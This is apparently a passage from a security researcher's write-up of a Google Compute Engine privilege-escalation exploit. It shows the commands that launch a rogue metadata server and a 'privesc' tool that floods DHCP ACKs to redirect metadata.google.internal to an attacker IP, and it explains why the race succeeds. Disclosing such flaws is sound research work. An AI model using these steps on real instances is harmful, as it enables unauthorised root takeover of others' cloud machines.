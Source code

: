 First, the fake metadata server is launched on a machine fully under your control that is accessible via port 80 from the target instance as follows:

```
sudo ./fakeMeta
```

Then, the target machine is accessed via SSH using a user account with only the `compute.osLogin` IAM role, which does not grant administrative privileges. Let's assume your rogue metadata server is running on IP address 66.66.66.66 and that your target box's primary ethernet device is `ens4` with an IP of 10.128.0.100. The exploit is run as follows:

```
./privesc -rogue 66.66.66.66 -dev ens4
```

The exploit will use the `journalctl` command to search the system log for the most recent DHCP transaction ID (xid). It will then begin flooding the local host with DHCP ACK packets that contain that xid and the following relevant configuration info:

- hostname: metadata.google.internal
- IP address: 66.66.66.66
- lease time: 10 seconds

Nothing will happen immediately, and the flood of packets will simply be ignored by the host. Eventually, it will be time to renew the DHCP lease. The host will send a DHCP REQUEST packet directly to 169.254.169.254 (the legitimate metadata server) asking to be assigned its existing network configuration. This request will contain the same xid that the exploit previously extracted from the system logs.

At this point, the host is waiting for an ACK.

Because the host is already flooding itself with DHCP ACK packets containing the same xid, one of these malicious packets will be received and processed before the metadata server has time to reply. It is simply faster and wins the race 100% of the time in all tests I performed.

Amusingly, DHCP clients don't seem to care that the ACK they receive contains configuration data completely different than what they requested. All that matters is that xid.

The `google_set_hostname` exit hook will run. Because this ACK contains both a hostname and an IP address, the `if` statement mentioned in the section above will evaluate to true and a new line will be written into the `/etc/hosts` file. This file will now look like this:

```
127.0.0.1 localhost

# The following lines are desirable for IPv6 capable hosts
::1 ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
ff02::3 ip6-allhosts
169.254.169.254 metadata.google.internal metadata
66.66.66.66 metadata.google.internal metadata  # Added by Google
169.254.169.254 metadata.google.internal  # Added by Google
```
